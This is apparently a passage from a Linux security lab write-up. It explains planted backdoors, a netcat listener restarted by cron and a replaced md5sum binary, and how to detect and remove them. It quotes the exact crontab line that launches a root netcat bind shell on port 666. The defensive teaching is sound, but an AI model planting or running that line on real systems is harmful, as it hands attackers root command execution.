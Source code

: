 Run `chsh -s /bin/false very_important_account` to change their shell.

## Backdoor 3

A program was listening on port 666. Attackers could connect to this port over TCP and
execute any command as root.

### Base system

Netcat is a utility for reading and writing data over a network using either
TCP or UDP. It is very useful for debugging stuff like SSH servers, HTTP servers,
MySQL servers, or just TCP and UDP in general. Running netcat with the `-l` argument
tells it to open a port and listen for incoming connections.

Crontab is a utility on most Unix systems that will start jobs or commands on a
regular, time based, interval. For instance, you could run a script to clean out
your Downloads folder every 2 hours, or a script to run updates every Friday, or
a script to pay your landlord on the first of every month. There are a few config
files that control Crontab, including `/etc/crontab` and every file in the folder
`/etc/cron.d`.

### The backdoor

A script in the root user's crontab started a netcat listener every minute.

### How to find it

You should always know what ports are open and listening on a Linux system. Run the
command `sudo ss -tulpn` to see very open port. If you did this during the lab you
would notice that port 666 is listening. This is weird. Further investigation
would have showed you the command that was starting the listener, and you should
have checked crontab at that point.

### How to prevent it

It was necessary to remove the crontab script that kept starting the listener.
Edit the file `/etc/crontab` and remove the line that read:
`*/1 * * * * root /usr/bin/nc -e /bin/bash -l 666 &`

## Backdoor 4

The `md5sum` command was replaced by a malicious shell script that
started a reverse shell.

### Base system

Every command (more or less) that you run in a Linux terminal is actually
a program stored in an executable file. For instance, the `ls` command
is a compiled C program that lives in `/bin/ls`. To save typing, Linux
translates the command you type "ls" to the actual name of an executable file
"/bin/ls" by checking the `$PATH` environment variable. To look at the `$PATH`
variable youself run `echo $PATH`.
